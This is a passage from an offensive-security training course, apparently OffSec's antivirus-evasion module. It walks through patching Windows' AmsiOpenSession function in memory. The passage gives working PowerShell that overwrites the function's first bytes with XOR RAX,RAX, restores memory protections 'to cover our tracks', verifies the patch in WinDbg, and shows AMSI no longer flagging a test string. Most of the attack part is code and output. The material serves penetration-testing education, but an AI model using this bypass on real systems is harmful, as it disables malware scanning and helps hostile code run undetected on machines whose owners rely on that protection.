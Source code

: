 Now that we have located _AmsiOpenSession_ and modified its memory protections, we can overwrite the required three bytes.

We can use the _Copy_[9](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_318-9) method from the _System.Runtime.InteropServices_ namespace to copy the assembly instruction (XOR RAX,RAX) represented as 0x48, 0x31, 0xC0 from a managed array (_$buf_) to unmanaged memory:

```
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```

> Listing 50 - Overwriting the first assembly instruction

This should disable AMSI as soon as it is used, but we'll restore the original memory protection to cover our tracks. To restore the memory protections, we'll use _VirtualProtect_ again and specify the previous memory protection value 0x20 as shown in Listing 51:

```
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

> Listing 51 - Calling VirtualProtect to restore memory protections

Since we stored the function delegate in the _$vp_ variable, we do not have to resolve it twice. To verify the modifications, we'll again use WinDbg:

```
0:001> u 7FFFC3A224C0
amsi!AmsiOpenSession:
00007fff`c3a224c0 4831c0          xor     rax,rax
00007fff`c3a224c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224c5 4885c9          test    rcx,rcx
00007fff`c3a224c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`c3a224d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224d2 4883790800      cmp     qword ptr [rcx+8],0

0:001> !vprot 7FFFC3A224C0
BaseAddress:       00007fffc3a22000
AllocationBase:    00007fffc3a20000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000008000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
```

> Listing 52 - Verifying modifications in AmsiOpenSession

Notice the modified assembly instructions as well as the restored memory protections highlighted in Listing 52.

As a final test, we will enter the 'amsiutils' string, which would normally trigger AMSI:

```
PS C:\Users\Offsec> 'amsiutils'
amsiutils
```
